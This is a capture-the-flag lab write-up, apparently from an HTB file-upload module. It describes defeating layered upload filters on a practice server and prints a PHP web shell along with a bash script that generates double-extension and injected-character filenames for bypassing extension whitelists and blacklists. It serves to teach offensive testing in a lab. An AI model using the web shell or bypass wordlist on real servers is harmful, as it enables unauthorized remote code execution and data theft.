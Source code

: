# Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- We download the wordlist and filter for image-related `content-type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Note: `/image/jpg` is not in the list.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

# Exercise

## Fuzzing the `Content-Type` Header

We performed fuzzing on the `Content-Type` header to determine which types are allowed:  
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)  
![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)  

The results revealed that the following types are permitted:  
- `image/gif`  
- `image/jpeg`  
- `image/png`  

Manually testing also confirmed that `image/jpg` is allowed.  


---

## Testing File Content Using Magic Bytes

We tested the uploaded files' content by checking their **magic bytes** to determine the permitted MIME types:  
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)  


---

## Attempting to Upload a `.php` Web Shell

We tried uploading a simple `php` code with a `.php` extension. However, the server responded with the following error:  
**`Extension not allowed`**:  
![image](https://github.com/user-attachments/assets/dd4764de-2964-46f9-b94f-e9f0b34842d8)


---

## Fuzzing Whitelist with Common Web Extensions

To investigate whether any web extensions other than image extensions were allowed, we fuzzed the server with **common web extensions** from SecLists.  
Unfortunately, no additional web extensions were accepted in the whitelist:  
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)  
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)  

---

## Observations

- **Blacklist Validation:** When the server uses a blacklist, it rejects files with `.php` extensions and responds with `Extension not allowed`.  
- **Whitelist Validation:** When the server uses a whitelist, it only accepts image extensions and responds with `Only images are allowed` for any other file types.


# Extension Fuzzing with a Custom Wordlist

We will perform extension fuzzing using a custom wordlist containing various payloads designed to bypass both whitelists and blacklists. To generate this wordlist, we used the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



# Accessing Uploaded Extensions and Executing Code

We observed that several extensions could be successfully uploaded. Next, we made a request to view the uploaded files and performed fuzzing using the same wordlist. This approach also tested access to the previously uploaded files:

![Fuzzing Uploaded Files](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)

## Identifying Executable Extensions

Among all the files that were successfully uploaded and accessible (status code 200), only a few were able to interpret and execute code:

![Executable Extensions](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)

## Deploying the Web Shell

We uploaded the web shell:

![Uploading Web Shell](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Then, we accessed the previously uploaded file:

![Accessing Web Shell](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)

## Capturing the Flag

Finally, we retrieved the flag and completed the lab:

![Flag Retrieved](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)







